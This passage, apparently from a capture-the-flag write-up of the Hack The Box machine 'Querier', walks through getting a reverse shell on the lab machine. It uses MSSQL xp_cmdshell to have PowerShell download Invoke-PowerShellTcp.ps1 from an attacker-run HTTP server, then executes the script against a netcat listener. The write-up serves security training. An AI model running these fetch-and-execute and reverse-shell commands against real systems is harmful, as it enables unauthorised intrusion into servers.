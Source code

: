 ![ip-shell](https://res.cloudinary.com/fluid-attacks/image/upload/v1620331037/blog/querier-writeup/ip-shell_olbsfz.webp)

<div class="title">

Figure 13. Invoke-PowerShellTcp code

</div>

</div>

Then it is necessary to start an HTTP server in our machine. We can do
it with Python3.

``` bash
python -m http.server
```

<div class="imgblock">

![python-server](https://res.cloudinary.com/fluid-attacks/image/upload/v1620331036/blog/querier-writeup/python-server_hhhxx5.webp)

<div class="title">

Figure 14. Http server

</div>

</div>

To make the server download our file, we can use Powershell as
follows.

``` bash
> EXEC master.dbo.xp_cmdshell 'powershell.exe \\
       Invoke-WebRequest http://10.10.15.1:8000/Invoke-PowerShellTcp.ps1 \\
       -OutFile c:\Users\mssql-svc\Music\Invoke-PowerShellTcp.ps1';
```

Now to get an interactive shell we set our machine to listen
`port 30000` and execute the script in the HTB machine.

``` bash
nc -lvp 30000
```

``` bash
> EXEC master.dbo.xp_cmdshell 'powershell.exe \\
       c:\Users\mssql-svc\Music\Invoke-PowerShellTcp.ps1';
```

<div class="imgblock">

![shell-nc](https://res.cloudinary.com/fluid-attacks/image/upload/v1620331036/blog/querier-writeup/shell-nc_iqz8mh.webp)

<div class="title">

Figure 15. Interactive shell

</div>

</div>
